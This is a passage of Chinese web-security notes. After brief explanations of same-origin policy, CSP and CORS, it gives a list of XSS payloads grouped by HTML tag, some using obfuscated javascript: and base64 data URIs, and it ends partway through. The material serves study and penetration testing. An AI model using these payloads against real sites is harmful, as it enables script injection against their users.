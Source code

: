 2. API
- XMLHttpRequest(CORS)
- window.postMessage() 
通常，对于两个不同页面的脚本，只有当执行它们的页面位于具有相同的协议（通常为https），端口号（443为https的默认值），以及主机  (两个页面的模数 Document.domain设置为相同的值) 时，这两个脚本才能相互通信

### CSP
参考：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP
- 内容安全策略(CSP) 是一个额外的安全层，通过设置HTTP头的方式来告诉浏览器对脚本的限制。
- 为使CSP可用, 你需要配置你的网络服务器返回  Content-Security-Policy  HTTP头部 ( 有时你会看到一些关于X-Content-Security-Policy头部的提法, 那是旧版本，你无须再如此指定它)。
- `<meta>`元素也可以被用来配置该策略。

### CORS
CORS参考之前的文章：CORS学习

# 攻击手段
1. **可能存在XSS攻击的标签**
```html
a
	<a href="javascript:alert(/test/)" onclick=alert(1)>xss</a>
audio
	<audio src=x onerror=alert(47)>
button
	<button/onclick=alert(1) >M</button>
	<form><button formaction=javascript&colon;alert(1)>M
	<button onfocus=alert(1) autofocus>
div
	<div/onmouseover='alert(1)'>X
	<div style="position:absolute;top:0;left:0;width:100%;height:100%" onclick="alert(52)">
embed
	https://github.com/evilcos/xss.swf/blob/master/xss_source.txt
	<EMBED SRC="xss.swf" ></EMBED>
form
	<form action=javascript:alert('xss') method="get" >
	<form method=post action=aa.asp? onmouseover=alert('xss')>
	<form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4="> //chrome受限
iframe
	<iframe/onload=alert(1)></iframe>
	<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>
	<iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
	<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
	<iframe src="aaa" onmouseover=alert('xss') /><iframe>
	<iframe src="javascript&colon;prompt&lpar;`xss`&rpar;"></iframe>
img
	<img src="1" onerror=eval("alert('xss')")>
	<img src="x" onerror=alert(1)>
	<img src=1 onmouseover=alert('xss')>
	<img/src/onerror=alert(1)>
	<img src ?itworksonchrome?\/onerror = alert(1)>
	<img src onerror = alert(1)>
input
	<input value="" onclick=alert('xss') type="text">
isindex
	<isindex type=image src=1 onerror=alert(1)> 
keygen
	<keygen onfocus=javascript:alert(1) autofocus>
marquee
	<marquee onstart="alert('1')"></marquee>
object
```